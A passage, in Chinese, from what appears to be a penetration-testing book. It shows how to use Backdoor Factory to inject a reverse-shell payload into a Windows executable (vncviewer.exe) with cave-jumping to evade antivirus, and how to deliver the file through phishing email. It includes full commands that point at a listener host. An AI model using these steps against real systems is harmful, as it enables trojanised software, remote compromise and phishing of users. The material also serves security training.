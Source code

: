 后门工厂将 shell 代码插入到工作的 EXE 文件中，而不改变原来的所有内容。您可以使用以下`/usr/share/windows-binaries`目录中的可执行文件，或任何其他未编码保护的 Windows 二进制文件：

![Using Backdoor-Factory to Evade Antivirus](../Images/image00961.jpeg)

运行后门工厂并在`43434`端口的`10.0.0.2`上创建一个具有侦听器的远程 shell 的代码如下。跳洞选项将代码散布在可执行文件的空白处，进一步混淆防病毒扫描：

```
backdoor-factory –cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp

```

如果您在 shell 代码选择中出错（如上所述），应用程序将显示您的选择：

![Using Backdoor-Factory to Evade Antivirus](../Images/image00962.jpeg)

```
backdoor-factory –cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp_inline

```

后门工厂接着进行，并且提供了将外壳代码注入二进制文件中所有空隙或洞穴的选项：

![Using Backdoor-Factory to Evade Antivirus](../Images/image00963.jpeg)

我们将选择洞穴 1：

![Using Backdoor-Factory to Evade Antivirus](../Images/image00964.jpeg)

`backdoored`目录在根主目录`~/backdoored/`中；因此，很容易找到。我们可以使用 Social Engineering Toolkit 将这个修改过的文件推送到群发邮件中，但您可以通过电子邮件将它从一个伪造的帐户发送到 Windows 10 邮箱，看看它是否能够清除反病毒障碍。该可执行文件必须压缩以通过邮件服务器上的过滤器，一旦在 Windows 10 计算机上解压缩，它就会作为恶意软件文件被清除。

Windows 10 defaultAnti-virus 从社交工程工具包中找到此文件，正如它找到另一个文件一样。未打补丁的旧版本 Windows 显然存在风险。

# 总结

在本章中，您已经看到了在 Windows 计算机上获得控制和设置后门的五种不同方法，从 Ncat 脚本到 metasploit Meterpler 攻击，再到添加 dropbox，再到使用社交工程工具包发送钓鱼电子邮件，再到使用后门工厂使用 shell 脚本后门创建可执行文件。

在下一章中，我们将讨论您收集的恶意软件的反向工程，以便您了解它在野外或网络中可能会做什么，并对您的设备进行压力测试。